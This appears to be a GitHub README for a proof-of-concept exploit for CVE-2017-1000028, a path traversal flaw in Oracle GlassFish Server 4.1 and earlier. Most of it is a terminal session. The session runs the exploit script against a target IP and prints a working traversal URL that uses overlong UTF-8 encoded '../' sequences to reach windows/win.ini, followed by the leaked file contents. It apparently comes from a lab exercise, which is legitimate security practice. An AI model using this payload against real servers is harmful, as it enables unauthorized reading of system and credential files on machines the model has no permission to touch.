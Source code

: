 # Path Traversal in Oracle GlassFish Server Open Source Edition

- Vendor: Oracle Corporation (Project sponsored by Oracle)
- Product: GlassFish Server Open Source Edition
- Version affected:  4.1 and prior versions

```python
┌──(kali⚡lof1)-[~/Documents/PG/Fish]
└─$ python3 GlassFish_CVE-2017-1000028.py --ip 192.168.240.168 --path windows/win.ini

Requested URL: http://192.168.240.168:4848/theme/META-INF/prototype%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AFwindows/win.ini
Status Code: 200
Response:
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```
